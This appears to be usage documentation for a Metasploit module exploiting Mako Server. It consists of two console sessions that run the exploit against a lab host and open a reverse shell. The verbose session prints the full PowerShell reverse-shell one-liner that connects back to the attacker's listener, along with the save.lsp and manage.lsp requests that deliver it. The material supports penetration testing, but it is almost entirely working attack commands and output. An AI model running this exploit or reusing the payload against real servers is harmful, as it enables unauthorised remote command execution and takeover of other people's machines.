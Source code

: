 ## Scenarios

```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49175) at 2017-10-26 21:23:59 -0400

Microsoft Windows
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

### Verbose Output

```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set VERBOSE true
VERBOSE => true
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > check

[*] Trying to detect running Mako Server and necessary files...
[*] Mako Server save.lsp returns correct ouput.
[*] 10.10.10.3:80 The target appears to be vulnerable.
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Now executing the following command: os.execute([[powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.2';$p='4444';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};]])
[*] Sending PUT request to save.lsp...
[*] Sending GET request to manage.lsp...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49174) at 2017-10-26 21:21:08 -0400

Microsoft Windows
```